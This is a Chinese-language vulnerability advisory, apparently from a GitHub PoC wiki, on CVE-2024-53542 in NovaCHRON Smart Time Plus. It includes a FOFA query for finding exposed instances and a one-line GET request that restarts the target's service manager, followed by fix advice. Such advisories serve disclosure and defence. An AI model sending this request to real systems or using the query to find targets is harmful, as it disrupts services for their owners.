

# NovaCHRON Zeitsysteme GmbH & Co.KG addProject 逻辑缺陷漏洞（CVE-2024-53542）

# 漏洞描述

  NovaCHRON Zeitsysteme GmbH & Co. KG Smart Time Plus v8.x至v8.6的组件/iclock/Settings中的错误访问控制允许攻击者通过精心设计的GET请求任意重启NCServiceManger。

# 影响版本

Smart Time Plus v8.x 至 v8.6 版本

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title="smart time plus" && body="smart"

POC/EXP：**会导致目标机器重启 请谨慎执行！！！**

```
GET /iclock/Settings?restartNCS=1 HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1
 
```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
